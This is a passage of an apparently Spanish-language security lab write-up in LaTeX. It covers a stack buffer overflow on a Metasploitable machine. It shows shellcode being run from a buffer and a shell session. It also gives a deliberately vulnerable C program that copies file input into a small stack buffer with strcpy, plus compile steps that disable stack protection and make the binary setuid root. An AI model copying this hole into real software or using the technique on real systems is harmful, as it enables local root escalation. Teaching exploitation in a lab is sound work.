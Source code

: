 \documentclass[]{article}
\begin{document}
\vspace{10pt}

Si lo compilamos y ejecutamos, la línea 

\begin{lstlisting}
((void(*)( ))buf)( );
\end{lstlisting}

hace saltar el contador de programa al ensamblador escrito en code[], que se ha copiado en buf[].

\begin{verbatim}
	gcc bo2shell.c -z execstack -o bo2shell
	msfadmin@metasploitable:~$ ./bo2shell 
	sh-3.2$ echo hi
	hi
	sh-3.2$ id
	uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),...
\end{verbatim}

Vemos que el id del shell es el mismo que el usuario que lo ejecuta, comportamiento esperado. Ahora, si construimos una aplicación vulnerable a stack buffer overflow:

\begin{minipage}{\linewidth}
\begin{lstlisting}
/* Our task is to exploit this vulnerability */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bof(char *str)
{
	char huecos[16];
	char buffer[24];
	fprintf(stderr, "buffer: \n%p\n", buffer);
	/* The following statement has a buffer overflow problem */
	strcpy(buffer, str);
	return 1;
}

int main(int argc, char **argv)
{
	char str[517];
	FILE *badfile;
	badfile = fopen("badfile", "r");
	fread(str, sizeof(char), 517, badfile);
	bof(str);
	printf("Returned Properly\n");
	return 1;
}
\end{lstlisting}
\end{minipage}

La aplicación vulnerable hay que compilarla con (para que el effective id sea el de root):

\begin{verbatim}
$ gcc bo2xploit.c -z execstack -fno-stack-protector -o bo2xploit -g
# chown root:root bo2xploit
# chmod 4755 bo2xploit
\end{verbatim}

\noindent Nota: la opción -g de depuración la hemos activado para poder depurar con gdb. No es necesaria, pero si no se usa habrá que cambiar la dirección a la que saltar (porque cambiará de posición el buffer).

En la aplicación vulnerable, podemos ver que hemos introducido un buffer de 24 bytes y que es justo el tamaño del ensamblador escrito en la primera parte. También \textbf{hemos metido 16 bytes de hueco porque sino los \textit{pushes} del ensamblador para hacer la llamada al sistema autodestruyen las propias instrucciones}.  Además hemos introducido también un printf mostrando la posición de buffer para saber a donde hay que saltar.
\end{document}
